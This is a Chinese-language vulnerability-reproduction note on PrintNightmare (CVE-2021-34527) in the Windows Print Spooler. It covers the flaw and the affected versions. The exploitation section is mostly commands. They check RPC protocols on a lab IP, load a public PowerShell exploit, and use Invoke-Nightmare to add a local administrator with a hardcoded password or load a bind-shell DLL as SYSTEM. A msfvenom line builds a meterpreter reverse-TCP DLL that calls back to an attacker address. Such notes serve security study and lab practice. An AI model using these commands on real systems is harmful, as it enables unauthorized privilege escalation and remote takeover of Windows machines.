 ```yaml
---
{"created":"2024-12-04T21:07:25.129+08:00","tags":["CVE","windows提权","CVE-2021-34527","打印机"],"Type":"Note","dg-publish":true,"漏洞类型":["RCE","LPE"],"漏洞出处":["windows"],"aliases":["PrintNightmare","CVE-2021-34527"],"permalink":"/20-网安/28-CVE复现/CVE-2021-34527/","dgPassFrontmatter":true,"noteIcon":"2"}
---
```


## 1. 漏洞描述
**CVE-2021-34527** 是一个 Windows 打印后台处理程序（Print Spooler）中的严重漏洞，也被称为 **PrintNightmare**。该漏洞允许攻击者通过加载恶意打印驱动程序实现 **远程代码执行（RCE）** 或 **本地权限提升（LPE）**。
- **漏洞根源**：  
    Windows Print Spooler 服务在处理驱动程序安装和管理时未正确验证权限，导致攻击者可以利用此漏洞加载恶意驱动程序。
- **危险性**：  
    通过此漏洞，攻击者可以直接执行任意代码，以 SYSTEM 权限完全控制目标系统。
## 2. 影响范围
几乎所有 Windows 系统均受到影响，包括客户端和服务器版本，特别是未安装补丁的系统。
- **受影响的系统**：
    - Windows 7、Windows 8.1、Windows 10
    - Windows Server 2008、2012、2016、2019、2022
- **未修复系统**：
    - 未禁用 Print Spooler 服务的系统。
    - 打印服务角色正在运行的服务器。
## 3. 利用方式


### 3.1. RCE利用
Impacket 工具套件中的 `printerbug.py`

### 3.2. LPE 利用
参考项目： https://github.com/JohnHammond/CVE-2021-34527
先检查一下打印机相关的协议是否运行 运行在进行下一步
```shell
┌──(kali㉿kali)-[~/thl/Pacharan]
└─$ impacket-rpcdump @192.168.69.69 | grep -E 'MS-RPRN|MS-PAR'
Protocol: [MS-RPRN]: Print System Remote Protocol
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```
#### 3.2.1. 加载模组
上传漏洞利用脚本 `cve-2021-34527.ps1`  并加载利用模块 `Invoke-Nightmare`
```powershell
Import-Module .\cve-2021-34527.ps1
```

#### 3.2.2. 默认添加一个管理员用户
```powershell
Invoke-Nightmare   添加一个 `adm1n`/`P@ssw0rd` 到本地管理员组

指定用户添加
Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure"
```

#### 3.2.3. 系统权限运行dll文件
```bash
Invoke-Nightmare -DLL "C:\bindshell.dll"
```

**msf生成 dll**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.69.3 lport=4455 -f dll -o reverse.dll
```
